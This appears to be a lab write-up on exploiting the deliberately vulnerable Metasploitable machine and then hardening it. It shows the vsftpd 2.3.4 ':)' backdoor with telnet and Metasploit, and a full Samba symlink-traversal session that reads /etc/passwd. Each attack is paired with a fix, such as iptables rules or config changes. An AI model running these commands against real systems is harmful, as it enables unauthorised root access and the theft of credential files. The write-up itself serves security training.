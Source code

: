Zenmap scan with no Telnet

### Port 21 - FTP
---
`telnet metasploitable_ip 21` with a `user backdoored:)` and type anything; PORT 6200 will open

`telnet metasploitable_ip 6200`

This exploit is pretty simple; you go into the metasploitable framework, choose the `vsftpd_234 backdoor` exploit, set the target IP, and run the exploit. 

This backdoor gives us root access to the Metasploitable machine. 

Besides the fact that vsftpd is on version 3.0.3 now and the obvious patch would be to update it, 

To patch it just for the version we had because in real life, the patches won't always be this simple. For this patch, you need to go into the vsftpd config file located in `/etc/vsftpd.conf` and disable anonymous upload for the FTP service.
##### No Anon Upload
`# upload line`

This alone is not enough for the exploit to not work; the reason being is that if you read the write up on the backdoor here, you notice that the attacker is able to log in as `:)` for the username and listen on port `6200`. 

A hardening technique for this particular case is to set up iptables to drop listening on unused ports. 

```bash
iptables -A INPUT -p tcp --dport 6200 -j DROP
iptables -A INPUT -p udp --dport 6200 -j DROP
```
* metaspoit exploit `unix/ftp/vsftp_234_backdoor` fails

### Ports 139 and 145 - Samba Anonmyous Login
---

* `smbclient -L //metasploitable_ip` 

```bash
root@ubuntu:~# msfconsole
msf > use auxiliary/admin/smb/samba_symlink_traversal
msf  auxiliary(samba_symlink_traversal) > set RHOST 192.168.51.102
msf  auxiliary(samba_symlink_traversal) > set SMBSHARE tmp
msf  auxiliary(samba_symlink_traversal) > exploit

[*] Connecting to the server...
[*] Trying to mount writeable share 'tmp'...
[*] Trying to link 'rootfs' to the root filesystem...
[*] Now access the following share to browse the root filesystem:
[*]     \\192.168.51.102\tmp\rootfs\

msf  auxiliary(samba_symlink_traversal) > exit

root@ubuntu:~# smbclient //192.168.99.131/tmp
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20-Debian]
smb: \> cd rootfs
smb: \rootfs\> cd etc
smb: \rootfs\etc\> more passwd
getting file \rootfs\etc\passwd of size 1624 as /tmp/smbmore.ufiyQf (317.2 KiloBytes/sec) (average 317.2 KiloBytes/sec)
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh

```
